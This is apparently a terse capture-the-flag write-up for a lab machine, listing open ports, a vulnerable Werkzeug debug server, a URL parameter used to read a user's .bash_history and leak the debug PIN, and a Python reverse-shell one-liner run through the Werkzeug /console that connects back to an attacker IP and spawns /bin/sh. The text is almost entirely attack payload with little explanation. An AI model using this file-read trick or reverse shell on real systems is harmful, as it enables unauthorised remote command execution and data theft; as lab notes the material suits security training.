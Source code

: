 # Ports
22      SSH </br>
890     HTTP </br>
5000    Werkzeug *VULNERABLE* </br>

# API
http://<IP>:5000/api/v1/resources/books 

# Payload
http://*IP*:5000/api/v1/resources/books?show=.bash_history
```bash
cd /home/sid 
whoami 
export WERKZEUG_DEBUG_PIN=123-321-135 
echo $WERKZEUG_DEBUG_PIN 
python3 /home/sid/api.py 
ls 
exit
```

# Reverse using "/console"
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.13.10.92",9595));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
